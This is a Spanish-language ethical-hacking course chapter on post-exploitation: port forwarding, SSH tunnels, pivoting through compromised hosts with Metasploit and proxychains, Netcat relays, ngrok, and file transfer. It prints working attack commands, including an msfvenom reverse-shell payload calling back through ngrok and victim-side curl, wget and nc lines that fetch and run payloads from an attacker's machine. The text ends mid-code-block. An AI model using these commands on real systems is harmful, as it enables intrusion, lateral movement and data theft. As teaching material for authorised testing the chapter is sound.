


| **Inicio**         | **atrás 5**                                    | **Siguiente 7**                                            |
| ------------------ | ---------------------------------------------- | ---------------------------------------------------------- |
| [🏠](../README.md) | [⏪](./5_5_Deteccion_y_Evasion_de_defensas.md) | [⏩](./5_7_Hacking_Etico_en_entornos_reales_Amazon_AWS.md) |

---

## **Índice**

| Temario                                                                                  |
| ---------------------------------------------------------------------------------------- |
| [352. Port Forwarding](#352-port-forwarding)                                             |
| [353. Port Forwarding con SSH](#353-port-forwarding-con-ssh)                             |
| [354. Pivoting](#354-pivoting)                                                           |
| [355. Netcat Port-Pivot Relay](#355-netcat-port-pivot-relay)                             |
| [356. Local Tunneling: LocalTunnel y Ngrok](#356-local-tunneling-localtunnel-y-ngrok)    |
| [357. Transferencia de ficheros](#357-transferencia-de-ficheros)                         |
| [358. Técnicas de transferencia de ficheros](#358-técnicas-de-transferencia-de-ficheros) |

---

# **Hacking etico y post-explotacion avanzada**

## **352. Port Forwarding**



### 🧠 ¿Qué es el Port Forwarding?

**Port Forwarding** (o reenvío de puertos) es una técnica para **redirigir conexiones de red que llegan a un puerto de un sistema hacia otro sistema o puerto interno**.

Es decir, permite que **una máquina externa pueda acceder a un servicio interno** que normalmente no estaría expuesto directamente.

---

### 📦 ¿Dónde se usa?

- Para **acceder a servicios detrás de NAT o firewall**.
- Para **exponer un servidor local a internet** (como un reverse shell).
- En pruebas de penetración para acceder a **máquinas internas** de una red.
- Para enrutar tráfico de forma dinámica con herramientas como `ssh`, `ngrok`, `socat`, `rinetd`, etc.

---

### 🎯 Tipos de Port Forwarding

| Tipo                   | Descripción                                                               |
| ---------------------- | ------------------------------------------------------------------------- |
| **Local Forwarding**   | Redirige el tráfico desde la máquina local a otro host remoto.            |
| **Remote Forwarding**  | Permite a un host remoto conectarse a un puerto en la máquina local.      |
| **Dynamic Forwarding** | Crea un proxy SOCKS, redirigiendo tráfico dinámico hacia varios destinos. |

---

### 🧰 Herramientas comunes

| Herramienta | Descripción rápida                                        |
| ----------- | --------------------------------------------------------- |
| `ssh`       | Muy usado para forwarding (local, remoto y dinámico)      |
| `socat`     | Redirecciona puertos de forma flexible                    |
| `ngrok`     | Exponer un servicio local al exterior (muy usado en CTFs) |
| `rinetd`    | Reenvío persistente entre IPs/puertos                     |
| `iptables`  | Reglas de reenvío en Linux                                |

---

### 🔧 Instalación de herramientas clave

#### 1. `socat` (Reenvío flexible)

```bash
sudo apt install socat
```

#### 2. `rinetd` (Servicio permanente de port forwarding)

```bash
sudo apt install rinetd
```

#### 3. `ngrok` (Redireccionamiento público)

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

### 🧪 Ejemplo completo 1: Redireccionar un reverse shell con `socat`

#### 🔥 Escenario:

Estás en una red interna y lograste una shell inversa (reverse shell) desde una víctima A. Pero la víctima A no tiene acceso externo. Tú puedes usar **una máquina B como pivote**.

```
Atacante <--> Máquina puente (B) <--> Víctima (A)
```

#### Paso 1: En máquina B (puente), redirige el puerto

```bash
socat TCP-LISTEN:4444,fork TCP:192.168.1.100:4444
```

Esto redirige todas las conexiones entrantes al puerto `4444` de B hacia la víctima (IP 192.168.1.100).

---

#### Paso 2: En la máquina atacante

Inicia Metasploit:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP de máquina puente B>
set LPORT 4444
exploit
```

Cuando la víctima se conecte a B, el tráfico llegará a ti.

---

### 🧪 Ejemplo completo 2: Usar `ngrok` para exponer un servicio local

Supón que tienes un listener de Metasploit en Kali:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
exploit
```

Ahora quieres exponer ese puerto 4444 a internet con `ngrok`.

#### Paso 1: Ejecutar ngrok

```bash
ngrok tcp 4444
```

Te devolverá algo como:

```
tcp://0.tcp.ngrok.io:13745 -> localhost:4444
```

Ese `tcp://0.tcp.ngrok.io:13745` será la dirección a la que el payload de la víctima se conectará.

#### Paso 2: Crear tu payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=13745 -f exe > shell.exe
```

Al ejecutar ese payload en una máquina remota, obtendrás la shell aunque estés detrás de NAT.

---

### 🧪 Ejemplo completo 3: Port forwarding persistente con `rinetd`

1. Edita el archivo de configuración:

```bash
sudo nano /etc/rinetd.conf
```

2. Agrega:

```
0.0.0.0 8080 192.168.1.100 80
```

Esto significa: redirige cualquier conexión al puerto `8080` del sistema actual a `192.168.1.100:80`.

3. Reinicia el servicio:

```bash
sudo systemctl restart rinetd
```

---

### 🛡️ Uso en Ciberseguridad

#### 🔓 En Pentesting:

- **Pivoting**: acceder a máquinas internas usando port forwarding sobre un host comprometido.
- **Reversing con NAT**: cuando la víctima no tiene IP pública.
- **Evadir firewalls**: reenviar tráfico que de otra manera estaría bloqueado.

---

### 🧠 Resumen

| Técnica                                        | Ejemplo                         |
| ---------------------------------------------- | ------------------------------- |
| `ssh -L`                                       | Local forwarding                |
| `ssh -R`                                       | Remote forwarding               |
| `socat TCP-LISTEN:4444 TCP:192.168.1.100:4444` | Manual enrutamiento             |
| `ngrok tcp 4444`                               | Exposición temporal en internet |
| `rinetd`                                       | Servicio persistente            |

---

### 🚨 Advertencia legal

> Estas técnicas deben usarse **solo en entornos controlados, laboratorios personales o sistemas con autorización**.
>
> Usar port forwarding para evadir firewalls corporativos sin permiso **es ilegal**.

---

[🔼](#índice)

---

## **353. Port Forwarding con SSH**

### 🧠 ¿Qué es el Port Forwarding con SSH?

El **port forwarding con SSH** permite redirigir tráfico a través de un túnel cifrado SSH para:

- Acceder a servicios remotos de forma segura
- Bypassear firewalls o NAT
- Realizar **pivoting** en pruebas de penetración

---

### 🎯 ¿Para qué sirve?

- Acceder a servicios **protegidos por firewalls**
- Hacer tunneling de puertos como **MySQL, RDP, Redis, VNC, etc.**
- Crear **proxies SOCKS5** para navegar por otras redes
- En pentesting: acceder a servicios internos de una red comprometida

---

### 📦 Tipos de Port Forwarding con SSH

| Tipo         | Comando  | ¿Qué hace?                                                 |
| ------------ | -------- | ---------------------------------------------------------- |
| **Local**    | `ssh -L` | Redirige tráfico desde tu máquina hacia un servidor remoto |
| **Remoto**   | `ssh -R` | Permite al host remoto acceder a tu máquina local          |
| **Dinámico** | `ssh -D` | Crea un proxy SOCKS para enrutar tráfico dinámicamente     |

---

### 🛠️ Requisitos

- Acceso a un servidor SSH (puede ser Linux, VPS, VM, etc.)
- Cliente SSH instalado (por defecto en Linux y macOS, en Windows se usa PowerShell, PuTTY o `ssh.exe`)
- Puertos abiertos en destino

---

### ✅ Ejemplo 1: Local Forwarding (acceder a un servicio remoto localmente)

---

#### 🔥 Escenario:

Tu servidor remoto (VPS) tiene una base de datos MySQL corriendo en `localhost:3306`, y el firewall bloquea conexiones externas.

Tú quieres acceder desde tu PC a ese MySQL **como si estuviera en tu máquina local**.

---

#### 🧪 Comando:

```bash
ssh -L 3336:localhost:3306 usuario@vps-remoto
```

📌 Significado:

- `-L` → Local forwarding
- `3336` → Puerto en tu máquina local
- `localhost:3306` → Servicio remoto al que quieres acceder
- `usuario@vps-remoto` → Usuario SSH y dirección del servidor

---

#### ✅ Uso práctico:

Ahora, desde tu PC puedes conectarte así:

```bash
mysql -h 127.0.0.1 -P 3336 -u root -p
```

Esto conecta con el **MySQL remoto** como si estuviera local.

---

### ✅ Ejemplo 2: Remote Forwarding (exponer un puerto local al servidor remoto)

---

#### 🔥 Escenario:

Tu máquina está detrás de un NAT, pero quieres permitir que tu servidor remoto se conecte a tu servicio local (por ejemplo, un servidor web en el puerto 8080).

---

### 🧪 Comando:

```bash
ssh -R 9090:localhost:8080 usuario@vps-remoto
```

📌 Significado:

- `-R` → Remote forwarding
- `9090` → Puerto en el VPS
- `localhost:8080` → Servicio corriendo en tu máquina local

---

#### ✅ Uso práctico:

En el servidor remoto (VPS), puedes hacer:

```bash
curl http://localhost:9090
```

Y verás el contenido del servidor local expuesto por el túnel.

---

### ✅ Ejemplo 3: Dynamic Forwarding (crear un proxy SOCKS)

---

#### 🔥 Escenario:

Quieres enrutar todo el tráfico de tu navegador a través de un servidor VPS, como si fuera una VPN.

---

#### 🧪 Comando:

```bash
ssh -D 9050 usuario@vps-remoto
```

📌 Esto crea un **proxy SOCKS5** local en tu máquina, escuchando en el puerto `9050`.

---

#### ✅ Configuración:

En tu navegador (Firefox, Chrome con plugin), configuras:

```
Proxy SOCKS5
Host: 127.0.0.1
Puerto: 9050
```

¡Y listo! Estás navegando como si estuvieras desde el VPS.

---

### 📦 Instalación de cliente SSH (si no lo tienes)

#### En Linux:

Ya viene instalado. Si no:

```bash
sudo apt install openssh-client
```

#### En Windows:

Abre PowerShell o CMD:

```bash
ssh usuario@IP_remota
```

Si no está, puedes instalar el cliente OpenSSH desde:

```
Configuración → Aplicaciones → Características opcionales → OpenSSH Client
```

---

### 🧪 Ejemplo completo final: Acceder a un servidor interno a través de una máquina comprometida

---

#### 🔥 Escenario:

- ✅ Has comprometido una máquina Linux (`host-comprometido`) en una red interna.
- 🎯 Quieres acceder desde tu PC a un servicio web que corre en `192.168.10.5:80`, solo accesible desde dentro de esa red.

---

#### 🧪 Solución con SSH:

Desde tu PC:

```bash
ssh -L 8080:192.168.10.5:80 usuario@host-comprometido
```

---

#### ✅ Resultado:

Ahora puedes abrir tu navegador en:

```
http://localhost:8080
```

Y verás el sitio web de `192.168.10.5`, ¡aunque tú estás fuera de la red!

---

### 🧠 Resumen rápido

| Objetivo                            | Comando                                                 |
| ----------------------------------- | ------------------------------------------------------- |
| Reenviar un servicio remoto a local | `ssh -L <local_port>:<host>:<remote_port> user@host`    |
| Exponer un servicio local en remoto | `ssh -R <remote_port>:localhost:<local_port> user@host` |
| Proxy SOCKS dinámico (tipo VPN)     | `ssh -D <local_port> user@host`                         |

---

### ⚠️ Seguridad y legalidad

- Estas técnicas deben usarse **solo con autorización**.
- En pentesting, esto es ideal para **pivoting** y acceso lateral dentro de redes.
- El SSH tunneling puede evadir firewalls, así que **no lo uses en redes que no controlas**.

---

[🔼](#índice)

---

## **354. Pivoting**



### 🧠 ¿Qué es el Pivoting?

**Pivoting** (o pivotación) es una técnica usada por los pentesters o atacantes para **moverse lateralmente dentro de una red interna**, después de comprometer una máquina.

> Permite usar una máquina comprometida como **puente (pivot)** para acceder a otras máquinas **que no están accesibles directamente** desde el exterior.

---

### 🎯 ¿Cuándo se usa?

Cuando:

- Hay una red interna inaccesible desde tu PC
- Ya tienes acceso (por ejemplo, shell o meterpreter) a **una máquina dentro de esa red**
- Quieres alcanzar máquinas detrás del firewall o en subredes privadas

---

### 🛠️ Tipos de Pivoting

| Tipo                  | Descripción                                                    | Herramientas comunes                 |
| --------------------- | -------------------------------------------------------------- | ------------------------------------ |
| **Pivoting estático** | Redirige puertos fijos                                         | `SSH`, `iptables`, `rinetd`          |
| **Pivoting dinámico** | Redirige cualquier puerto (tipo proxy)                         | `Proxychains`, `Metasploit`, `SOCKS` |
| **VPN pivoting**      | Te conectas virtualmente como si fueras parte de la red remota | `OpenVPN`, `Meterpreter VPN`         |

---

### ✅ Herramientas para Pivoting

| Herramienta   | ¿Qué hace?                                                                     |
| ------------- | ------------------------------------------------------------------------------ |
| `Metasploit`  | Proxy SOCKS4 dinámico con `autoroute` y `socks4a`                              |
| `SSH`         | Forwarding de puertos (`-L`, `-R`, `-D`)                                       |
| `Proxychains` | Redirige cualquier programa a través de un proxy (como el de Metasploit o SSH) |
| `chisel`      | Crea túneles rápidos y ligeros TCP/HTTP                                        |
| `socat`       | Redirige puertos a nivel de sistema                                            |

---

### ✅ Instalación básica de herramientas

#### En Kali Linux

```bash
sudo apt update
sudo apt install metasploit-framework proxychains4 ssh nmap
```

#### Para usar `chisel` (cliente/servidor):

```bash
# En Kali
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip chisel_1.8.1_linux_amd64.gz
chmod +x chisel_1.8.1_linux_amd64
mv chisel_1.8.1_linux_amd64 /usr/local/bin/chisel
```

---

### 🔥 Ejemplo completo paso a paso: Pivoting con Metasploit + Proxychains

---

#### 🧪 Escenario

- Tu máquina: `Kali Linux` (externa)
- Red interna de la víctima: `192.168.10.0/24`
- Máquina comprometida (pivot): `192.168.10.10`
- Objetivo escondido: `192.168.10.20` (solo accesible desde la máquina pivot)
- Quieres escanear o acceder a esa máquina

---

#### 1. Obtener acceso (ya sea por Meterpreter, SSH o netcat)

Supongamos que ya tienes una **session Meterpreter** en `192.168.10.10`.

---

#### 2. Cargar el módulo `autoroute` en Metasploit

```bash
meterpreter > background
msf6 > use post/multi/manage/autoroute
msf6 post(autoroute) > set SESSION 1
msf6 post(autoroute) > run
```

Esto te permite enrutar tráfico hacia la red interna `192.168.10.0/24`.

---

#### 3. Iniciar el proxy SOCKS

```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(socks_proxy) > run
```

Por defecto corre en el puerto `1080`.

---

#### 4. Configurar Proxychains

Edita el archivo:

```bash
sudo nano /etc/proxychains4.conf
```

Y al final agrega:

```
socks4 127.0.0.1 1080
```

Guarda y sal.

---

#### 5. Usar herramientas a través del túnel

Ejemplo para escanear la máquina oculta `192.168.10.20`:

```bash
proxychains nmap -sT -Pn -p 22,80 192.168.10.20
```

También puedes usar `netcat`, `curl`, `xfreerdp`, `firefox`, etc.

```bash
proxychains curl http://192.168.10.20
```

¡Y listo! Estás accediendo a la red interna a través del host comprometido.

---

### 🔄 Alternativa: Pivoting con SSH

Si comprometiste un usuario con acceso SSH en una máquina de la red interna, puedes hacer:

```bash
ssh -D 1080 usuario@192.168.10.10
```

Y luego usar `proxychains` igual que arriba.

---

### 🧠 Resumen

- **Pivoting** permite moverse lateralmente en una red a través de una máquina comprometida.
- Puedes usar:

  - `Metasploit` + `autoroute` + `socks_proxy`
  - `SSH -D` + `proxychains`
  - `Chisel` para tunelización personalizada

- Ideal para enumerar redes internas, explotar otras máquinas y moverse en entornos segmentados.

---

### ⚠️ Legalidad y Ética

> Esta técnica **debe usarse solo con fines educativos o con permiso explícito**.
>
> Usarla sin autorización puede ser ilegal y tiene consecuencias graves.

---

[🔼](#índice)

---

## **355. Netcat Port-Pivot Relay**

### 🧠 ¿Qué es Netcat Port-Pivot Relay?

Es una técnica que usa **Netcat** para redirigir tráfico de una máquina intermedia (que **sí** tiene acceso a una red interna) hacia un objetivo que **no puedes alcanzar directamente**.

> Es útil cuando has comprometido una máquina que **puede ver una red interna**, y tú **quieres acceder a esa red desde fuera**, usando esa máquina como **puente (relay)**.

---

### 📌 Escenario típico

Imagina esta red:

```
Tu Kali  -->  [Máquina pivot: 10.0.2.15]  -->  [Objetivo interno: 192.168.1.100:22]
```

- Solo la máquina _pivot_ puede ver a `192.168.1.100`.
- Tú quieres conectarte al puerto 22 del objetivo (por ejemplo, para hacer SSH o escaneo).

Solución: usar Netcat como un **relay TCP**.

---

### 🧰 ¿Qué necesitas?

- Acceso a la máquina pivot: ya sea con `netcat`, `meterpreter`, `ssh`, `reverse shell`, etc.
- Tener instalado `netcat` (normalmente ya viene por defecto en Kali y Linux).
- Habilitar el puerto relay en la máquina pivot con Netcat.
- Redirigir tu tráfico a ese puerto desde tu máquina.

---

### ✅ Instalación de Netcat

En Kali o Debian:

```bash
sudo apt update
sudo apt install netcat
```

---

### 🔥 Ejemplo completo: Relay con Netcat

#### 🎯 Objetivo

Conectarte desde tu Kali al servicio SSH que corre en `192.168.1.100:22`, usando la máquina pivot `10.0.2.15` como puente.

---

#### Paso 1: Acceso a la máquina intermedia

Supón que tienes shell o acceso por SSH:

```bash
ssh usuario@10.0.2.15
```

---

#### Paso 2: Crear relay con Netcat en la máquina pivot

En la shell de la máquina pivot:

```bash
nc -lvnp 2222 -c "nc 192.168.1.100 22"
```

🔍 Esto hace lo siguiente:

- Escucha en el puerto `2222` en `10.0.2.15`.
- Todo lo que reciba en `2222`, lo reenvía a `192.168.1.100:22`.

---

#### Paso 3: Conectarte desde tu Kali

En tu máquina Kali:

```bash
nc 10.0.2.15 2222
```

¡Y estarás hablando directamente con el puerto 22 del host interno!

Si todo sale bien, verás algo como:

```
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
```

---

### 📦 Variación: convertirlo en un túnel "general" para otros puertos

Quieres escanear un puerto 80 o 445 interno:

```bash
# En la pivot:
nc -lvnp 8888 -c "nc 192.168.1.100 80"
```

Desde Kali:

```bash
curl http://10.0.2.15:8888
```

O para escanear:

```bash
nmap -p80 10.0.2.15
```

Estás en realidad escaneando `192.168.1.100:80`, gracias al relay.

---

### ⚠️ Problemas comunes y soluciones

| Problema               | Solución                                                              |
| ---------------------- | --------------------------------------------------------------------- |
| Netcat no soporta `-c` | Usa `ncat` de Nmap o compila Netcat tradicional                       |
| El puerto está cerrado | Asegúrate de que Netcat esté escuchando y el firewall permita tráfico |
| No se reenvía bien     | Usa `socat` como alternativa (más robusto)                            |

---

### 🚀 Alternativa con `socat` (más potente)

En la pivot:

```bash
socat TCP-LISTEN:2222,fork TCP:192.168.1.100:22
```

Desde Kali:

```bash
nc 10.0.2.15 2222
```

---

### 🧠 Recapitulando

| Elemento        | Descripción                                          |
| --------------- | ---------------------------------------------------- |
| Técnica         | Port pivoting con Netcat                             |
| Herramienta     | `nc -lvnp <puerto> -c "nc <IP interna> <puerto>"`    |
| Uso             | Redirigir tráfico hacia objetivos internos           |
| Escenario común | Moverse lateralmente dentro de una red               |
| Alternativas    | `socat`, `chisel`, `metasploit + socks`, `SSH -L/-R` |

---

### ⚖️ Aviso ético

> Esta técnica es válida solo en **entornos controlados, de laboratorio, o con permisos explícitos**.
>
> Usarla contra sistemas sin autorización es **ilegal y sancionado penalmente**.

---

[🔼](#índice)

---

## **356. Local Tunneling: LocalTunnel y Ngrok**

### 🌐 ¿Qué es el Local Tunneling?

Es una técnica que te permite exponer **una aplicación que corre en tu máquina local** (por ejemplo, `http://localhost:3000`) a través de **Internet**, usando un túnel seguro.

Esto es útil para:

- Probar un webhook (como los de Stripe, Discord, etc.)
- Compartir tu app local con alguien sin subirla a producción
- Recibir tráfico del exterior sin configurar puertos en tu router

---

### 🔧 Herramientas más usadas

| Herramienta     | ¿Qué hace?                                                                           |
| --------------- | ------------------------------------------------------------------------------------ |
| **LocalTunnel** | Abre un túnel HTTP de tu `localhost` hacia una URL pública gratis                    |
| **Ngrok**       | Abre túneles seguros (HTTP, TCP, etc.) con más opciones, autenticación, estadísticas |

---

### 🧰 Parte 1: **LocalTunnel**

---

#### ✅ Instalación

Necesitas tener [Node.js](https://nodejs.org/) instalado.

1. Instala LocalTunnel globalmente:

```bash
npm install -g localtunnel
```

Verifica que se instaló correctamente:

```bash
lt --help
```

---

#### 🧪 Ejemplo práctico

Supón que tienes una app corriendo en tu máquina local en el puerto `3000`:

```bash
npm run dev
```

Ahora exponla al mundo:

```bash
lt --port 3000
```

Resultado:

```bash
your url is: https://kxiujdzg.loca.lt
```

Esa URL es **pública**, cualquiera puede acceder a ella mientras el túnel esté activo.

También puedes personalizar el subdominio (si está libre):

```bash
lt --port 3000 --subdomain miappguss
```

→ Resultado: `https://miappguss.loca.lt`

---

#### 📌 Ventajas

- Fácil, sin cuenta
- Gratis
- Ideal para proyectos rápidos

---

### 🚀 Parte 2: **Ngrok**

---

#### ✅ Instalación

1. Ve a [https://ngrok.com/](https://ngrok.com/) y crea una cuenta (gratis).
2. Descarga Ngrok según tu sistema operativo.
3. Extrae el archivo y colócalo en una carpeta del PATH (por ejemplo `/usr/local/bin/` en Linux).

O bien:

```bash
# En Linux:
curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && \
echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && \
sudo apt update && sudo apt install ngrok
```

4. Autenticar tu cuenta con tu token:

```bash
ngrok config add-authtoken TU_TOKEN
```

---

#### 🧪 Ejemplo práctico

Supón que tu servidor local corre en el puerto `3000`:

```bash
ngrok http 3000
```

Verás algo como:

```bash
Forwarding  https://3a62-181-65-15-89.ngrok-free.app -> http://localhost:3000
```

Abres esa URL en el navegador y estás viendo tu app local a través de Internet.

---

#### 🔐 Funcionalidades extra de Ngrok

- **Túneles TCP** (ej. SSH, RDP):

  ```bash
  ngrok tcp 22
  ```

- **Inspección de tráfico web** (¡genial para pentesting!):

  [http://127.0.0.1:4040](http://127.0.0.1:4040) te muestra todo lo que pasa por el túnel.

- **Autenticación básica**:

  ```bash
  ngrok http -auth="user:pass" 3000
  ```

- **Subdominios personalizados (con plan Pro)**

---

### 🔍 Comparativa rápida

| Característica      | LocalTunnel | Ngrok                        |
| ------------------- | ----------- | ---------------------------- |
| Gratis              | Sí          | Sí (limitado)                |
| Requiere cuenta     | No          | Sí                           |
| Soporta TCP         | No          | Sí                           |
| Soporta subdominios | Limitado    | Solo en planes pagos         |
| Dashboard web       | No          | Sí                           |
| Análisis tráfico    | No          | Sí (`http://localhost:4040`) |

---

### 🧠 Recapitulación

- **LocalTunnel** es más simple, ideal para pruebas rápidas
- **Ngrok** es más robusto, con autenticación, estadísticas, y soporte para TCP

---

### 🎯 Ejemplo completo para ambos

#### Supón que tienes una app de React en el puerto `5173`:

```bash
npm run dev
```

##### ➤ Con LocalTunnel:

```bash
lt --port 5173
```

→ Resultado: `https://abcxyz.loca.lt`

##### ➤ Con Ngrok:

```bash
ngrok http 5173
```

→ Resultado: `https://1234-201-45-67-89.ngrok-free.app`

¡Listo! Ambas URL están redirigiendo a tu frontend local en React sin necesidad de desplegar nada en Vercel o Render.

---

[🔼](#índice)

---

## **357. Transferencia de ficheros**

### 🧠 ¿Qué es la transferencia de ficheros?

La **transferencia de ficheros** es el proceso de **mover archivos entre dos sistemas** a través de una red.

Esto puede ser:

- De una máquina atacante (Kali) hacia una máquina víctima (para subir un script o binario).
- Desde una máquina comprometida hacia tu máquina (para robar información o extraer resultados).
- Entre servidores en una red interna o hacia/desde Internet.

---

### 🔧 Herramientas comunes para transferencia de ficheros

| Herramienta                 | ¿Para qué sirve?                                   | Protocolo |
| --------------------------- | -------------------------------------------------- | --------- |
| **Python HTTP server**      | Servir archivos desde tu máquina                   | HTTP      |
| **`curl` o `wget`**         | Descargar archivos en la máquina remota            | HTTP      |
| **Netcat**                  | Transferir binarios, scripts o cualquier cosa      | TCP       |
| **SCP / SFTP**              | Transferencia segura entre máquinas (requiere SSH) | SSH       |
| **Impacket (smbserver.py)** | Compartir archivos vía SMB (Windows)               | SMB       |
| **FTP (vsftpd)**            | Subir o bajar archivos en red                      | FTP       |

---

### 📦 Parte 1: Python HTTP Server + curl/wget (más común)

#### ✅ Instalación

Python ya viene instalado en la mayoría de sistemas. Para iniciar un servidor HTTP:

```bash
# Si usas Python 3:
python3 -m http.server 8000
```

Esto sirve todos los archivos del directorio actual a través de `http://<tu-ip>:8000`

---

#### 💻 Ejemplo completo

##### 🖥️ En tu máquina (Kali o atacante):

Supón que tienes un archivo llamado `payload.exe` que quieres enviar:

```bash
cd /ruta/del/archivo
python3 -m http.server 8000
```

##### 🧑‍💻 En la máquina víctima (Linux o Windows con curl o wget):

Descargar el archivo usando `curl`:

```bash
curl http://<IP-del-atacante>:8000/payload.exe -o payload.exe
```

O usando `wget`:

```bash
wget http://<IP-del-atacante>:8000/payload.exe
```

---

### 🔌 Parte 2: Transferencia con Netcat (útil cuando no hay wget/curl)

#### ✅ Instalación

Netcat suele venir preinstalado. Si no:

```bash
sudo apt install netcat
```

---

#### 💻 Ejemplo completo

##### 🖥️ Desde el atacante (enviar archivo):

```bash
nc -lvnp 4444 < payload.exe
```

Esto espera una conexión entrante en el puerto 4444 y **envía el archivo**.

##### 🧑‍💻 En la máquina víctima (recibir el archivo):

```bash
nc <IP-del-atacante> 4444 > payload.exe
```

⚠️ Asegúrate de usar `>` en la víctima y `<` en el atacante.

---

### 🔐 Parte 3: Transferencia con SCP (si hay SSH)

#### ✅ Instalación

Ya suele estar instalado. Si no:

```bash
sudo apt install openssh-client
```

#### 💻 Ejemplo

Desde tu máquina:

```bash
scp payload.py usuario@IP-víctima:/tmp/
```

O desde la víctima para traerse archivos:

```bash
scp usuario@IP-atacante:/home/kali/script.sh .
```

---

### 🖥️ Parte 4: SMB con `smbserver.py` (Impacket)

#### ✅ Instalación

Primero instala Impacket (si aún no lo tienes):

```bash
pip install impacket
```

Luego:

```bash
impacket-smbserver share /ruta/del/archivo -smb2support
```

Desde Windows (víctima):

```powershell
copy \\<IP-del-atacante>\share\archivo.exe .
```

---

### 📁 Parte 5: FTP rápido (si no hay opciones)

En el atacante:

```bash
sudo apt install vsftpd
python3 -m pyftpdlib -p 21
```

Desde la víctima:

```bash
ftp <IP-del-atacante>
# login como anonymous, luego usa get nombre_de_archivo
```

---

### 🧠 Recapitulación

| Método                         | Usa  | Ventajas                          | Desventajas                      |
| ------------------------------ | ---- | --------------------------------- | -------------------------------- |
| Python HTTP Server + curl/wget | HTTP | Muy rápido y fácil                | Requiere acceso HTTP y curl/wget |
| Netcat                         | TCP  | Funciona en sistemas sin curl     | No encriptado                    |
| SCP/SFTP                       | SSH  | Seguro, cifrado                   | Requiere SSH y credenciales      |
| SMB (smbserver.py)             | SMB  | Ideal para víctimas Windows       | Detectable por antivirus         |
| FTP                            | FTP  | Funciona si no hay otras opciones | Inseguro, sin cifrado            |

---

### ✅ Ejemplo completo paso a paso

#### 🎯 Objetivo

Enviar `script.sh` desde tu Kali a una máquina Linux víctima que **solo tiene Netcat** y no tiene acceso a Internet.

#### 🔽 En Kali (atacante):

```bash
nc -lvnp 9001 < script.sh
```

#### 🔼 En la víctima (ya comprometida, shell activa):

```bash
nc <IP-de-Kali> 9001 > script.sh
chmod +x script.sh
./script.sh
```

---

[🔼](#índice)

---

## **358. Técnicas de transferencia de ficheros**

### 🧠 ¿Qué es la transferencia de ficheros?

Es el proceso de **mover archivos de una máquina a otra a través de una red**, ya sea:

- De tu máquina a un servidor o víctima (subida).
- De una máquina víctima o remota hacia ti (descarga).

Estas técnicas se usan en:

- Desarrollo y pruebas de servidores.
- Automatización de backups.
- Ciberseguridad: post-explotación, entrega de payloads, exfiltración de datos, etc.

---

### 🔧 Técnicas más usadas

Las técnicas más comunes pueden clasificarse según el **protocolo o herramienta usada**. Aquí te explico las más prácticas.

---

#### 1. 🐍 Python HTTP Server + `curl`/`wget` (rápido y universal)

Sirve para **enviar archivos a otras máquinas** usando un servidor HTTP simple.

##### 📦 Instalación:

Solo necesitas tener Python 3 y `curl` o `wget` en la otra máquina.

##### ▶️ Uso:

**Servidor (en tu máquina):**

```bash
python3 -m http.server 8000
```

Esto sirve los archivos del directorio actual por `http://TU-IP:8000`

**Cliente (en la máquina remota o víctima):**

```bash
curl http://TU-IP:8000/fichero.txt -o fichero.txt
```

O:

```bash
wget http://TU-IP:8000/fichero.txt
```

---

#### 2. 🔌 Netcat (transferencia binaria simple)

Muy útil cuando no tienes ni `curl` ni `wget`.

##### 📦 Instalación:

```bash
sudo apt install netcat
```

##### ▶️ Uso:

**Desde la máquina que envía el archivo:**

```bash
nc -lvnp 4444 < archivo.txt
```

**Desde la máquina que lo recibe:**

```bash
nc TU-IP 4444 > archivo.txt
```

💡 También puedes usarlo para enviar comandos, scripts, ejecutables, etc.

---

#### 3. 🔐 SCP (Secure Copy)

Usa **SSH** para transferencias **cifradas**.

##### 📦 Instalación:

```bash
sudo apt install openssh-client
```

##### ▶️ Uso:

**Enviar archivo a una máquina remota:**

```bash
